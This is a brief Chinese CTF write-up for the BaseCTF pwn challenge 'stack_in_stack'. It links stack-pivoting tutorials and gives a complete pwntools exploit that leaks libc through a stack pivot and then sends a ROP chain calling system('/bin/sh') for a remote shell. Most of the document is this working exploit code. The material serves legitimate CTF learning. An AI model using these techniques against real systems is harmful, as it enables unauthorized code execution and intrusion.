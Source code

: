 # Basectf pwn方向“stack_in_stack”

by Maple

栈迁移+libc，我理解的也不是很深刻，就不讲解了，这里附几篇我认为讲的不错的帖子

[栈迁移原理深入理解以及实操](https://xz.aliyun.com/t/12738?time__1311=GqGxu7G%3DGQD%3DoGN4eeqBKwpb8ddY5fII3x)

[栈迁移的原理&&实战运用](https://www.cnblogs.com/ZIKH26/articles/15817337.html)

[栈迁移原理介绍和运用](https://www.cnblogs.com/max1z/p/15299000.html)

[[原创]钉子户的迁徙之路（一）](https://bbs.kanxue.com/thread-281631.htm)


```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
#p = process("./pwn")
p = remote('gz.imxbt.cn',20330)
elf = ELF("./pwn")
libc = ELF("./libc.so.6")

p.recvuntil(b'mick0960.\n')
buf_addr = int(p.recv(14),16)
log.info("buf_addr:"+hex(buf_addr))

seceret = 0x4011dd
main = 0x40124a
leave = 0x00000000004012f2
ret = 0x000000000040101a

#泄露libc基地址
payload = p64(0) + p64(seceret) + p64(0) + p64(main)
payload += p64(0) + p64(0) #填充到rbp，0x30也就是48个字节减去前面的4*8,再填充两个
payload += p64(buf_addr) + p64(leave)#栈迁移，先覆盖返回地址为buf，再接leave_ret
p.send(payload)

p.recvuntil(b'0x')
libc_base = int(p.recv(12),16)-libc.sym["puts"]
log.info("libc_base:"+hex(libc_base))

# 重新接受buf
p.recvuntil(b'mick0960.\n')
buf_addr = int(p.recv(14),16)
log.info("buf_addr:"+hex(buf_addr))

system_addr = libc_base+libc.sym["system"]
binsh = libc_base+next(libc.search(b'/bin/sh'))
pop_rdi = libc_base+0x2a3e5

payload = p64(0)+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system_addr)
payload+=p64(0) # 填充一个
payload+=p64(buf_addr)+p64(leave)
p.send(payload)

p.interactive()
```
